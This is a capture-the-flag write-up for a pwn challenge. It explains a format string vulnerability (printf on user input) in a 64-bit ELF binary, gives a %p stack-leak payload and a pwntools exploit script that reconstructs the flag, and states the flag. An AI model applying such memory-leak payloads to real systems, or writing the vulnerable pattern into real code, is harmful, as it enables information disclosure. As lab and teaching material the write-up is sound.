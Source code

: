 # 📌 Challenge Name : **Chall**

## 📁 Challenge Info

![Challenge Overview](assets/Overview.png)

- **Category**: Pwn  
- **Binary**: 64-bit ELF  
- **Protections**: PIE enabled  
- **Vulnerability**: Format String  
- **Goal**: Leak the flag from memory using a format string vulnerability

---

## 🔍 Analysis

Running `strings` on the binary revealed fragments of the flag:

```

flag{SomH
e\_345y\_FH
345y\_ForH
ma71ng}

````

![Strings](assets/Strings.png)

This suggests the flag is loaded in memory but never printed directly.

The binary hints:

> "You can access the hidden flag now, use a format string vulnerability!"

---

## 🧨 Vulnerability

![Ghidra 1](assets/Ghidra1.png)

![Ghidra 2](assets/Ghidra2.png)

The binary uses user-controlled input as the format string in a `printf()` call:

```c
char buf[100];
fgets(buf, sizeof(buf), stdin);
printf(buf);  // ❌ Vulnerable to format string attacks!
````

This lets us read memory by injecting format specifiers like `%p`, `%x`, etc.

---

![Initial](assets/Initial.png)

## 🧪 Exploitation Process

We craft a payload to print stack values:

```
AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
```

Sample output:

```
AAAA.0x... .0x... .0x6d6f537b67616c66 .0x465f793534335f65 .0x676e3137616d726f .0x7d ...
```

The flag is split across 4 stack entries in reverse byte order (due to little-endian).

---

## 🐍 Exploit Script

```python
from pwn import *

p = process('./chall.unknown')
sleep(0.2)

payload = b'AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p'
p.sendline(payload)

output = p.recv(timeout=2).decode(errors='ignore')
print("[*] Raw output:\n", output)

try:
    leaked = output.split('AAAA.')[1].split('.')
    flag_bytes = b''.join(p64(int(val, 16)) for val in leaked[7:11])
    flag = flag_bytes.decode('latin-1', errors='ignore')
    flag = flag[:flag.index('}') + 1]
    print(f"[+] Flag found: {flag}")
except Exception as e:
    print(f"[-] Failed to parse flag: {e}")
```

![Script](assets/Script.png)

---

## 🏁 Flag

```
flag{Some_345y_Forma71ng}
```

---


## 👤 Author

### ~ **Basim Mehdi**  
### ~ *Team: 0xFAILURES*

